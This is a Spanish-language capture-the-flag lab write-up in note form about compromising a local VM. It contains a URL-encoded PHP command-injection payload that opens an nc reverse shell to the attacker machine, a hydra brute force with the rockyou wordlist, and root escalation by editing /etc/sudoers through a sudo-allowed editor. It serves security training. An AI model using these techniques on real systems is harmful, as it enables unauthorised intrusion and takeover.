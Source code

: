 tags: #maquina #writeups

---
Pre requisitos:
- Montamos la maquina con el modo de red de adaptador solo anfitrión
- En la maquina atacante añadiremos la ip de la maquina victima al archivo /etc/host asociándolo con ucjc y ucjc.com cuando descubramos la ip al realizar el escaneo.

Empezamos la maquina realizando un escaneo de la red para descubrir la ip de la maquina victima para ello usaremos la herramienta **netdiscover** 
![[Pasted image 20241228134351.png]]
Al terminar el escaneo obtenemos una lista de los dispositivos de la red, identificando uno de ellos como la maquina victima

![[Pasted image 20241228134517.png]]
en este caso la ip victima es 192.168.56.103
Una vez identificada la maquina victima procedemos a realizar un escaneo de los puertos abiertos con la herramienta **nmap** 

![[Pasted image 20241228134922.png]]

Con este escaneo descubrimos los siguientes puertos abiertos
![[Pasted image 20241228135016.png]]
Apreciamos que solo los puertos 22 y 80 esta abiertos a priori, seguimos con el descubrimiento de esos puertos a ver si encontramos algo interesante sino buscaremos mas puertos por UDP o puertos filtrados.

Continuamos con un escaneo mas profundo lanzando con nmap un conjunto básico de scrips de reconocimiento para averiguar servicios y versiones de los puertos descubiertos.

![[Pasted image 20241228135634.png]]
Una vez descubiertas las versiones de los servicios de los puertos 22 y 80 procedemos a buscar si existe algún exploit. 



(se encuentra una injeccion remota de comandos en el index.php y realizamos una revert shell conel siguiente comando con el cual nos autenticamos como www-data)
```
ucjc.com/index.php?page=index')%3B%24{system('nc -e %2fbin%2fsh 192.168.56.105 9999')}%3B%23"
```


(documentar escaneo con dirb, se encuentra una ruta a phpmyadmin, se intenta entrar sin contraseña con el usuario admin y entramos)

(navegando por la web encontramos un usuario que postea en el foro, intentamos un ataque con hydra con ese usuario y conseguimos su clave usando el diccionario rockyou)
![[Pasted image 20241229104853.png]]
conectamos sin problemas
![[Pasted image 20241229105943.png]]
Tras la conexion ssh observamos que el usuario tiene permiso para ejecutar un archivo .sh con privilegios elevados, ejecutamos ese fichero con
```bash
sudo ht
```
pero falla la apertura al necesitar una XTERM.
Observamos que existe otro fichero donde podemos ver los comandos ejecutados por el usuario anteriormente y ahi odemos ver que soluciona el problema ejecutando antes
```
TERM=xterm
```
ahora si volvemos a ejecutar el comando sudo ht y entramos en un programa de visualización y edición de ficheros.
(documentar con imagenes el proceso de escalada de privilegios mediante este programa)
al pulsar F2 nos abre una ventana donde podemos ver las rutas de archivos y en el historial vemos un fichero interesante /etc/sudoers
En este fichero modificamos para que el usuario que usamos pueda usar el comando sudo sin restriccion.
ahora ejecutamos 
```bash
sudo su
```
con el que introduciendo la contraseña del usuario actual nos convertimos en root
![[Pasted image 20241229113012.png]]
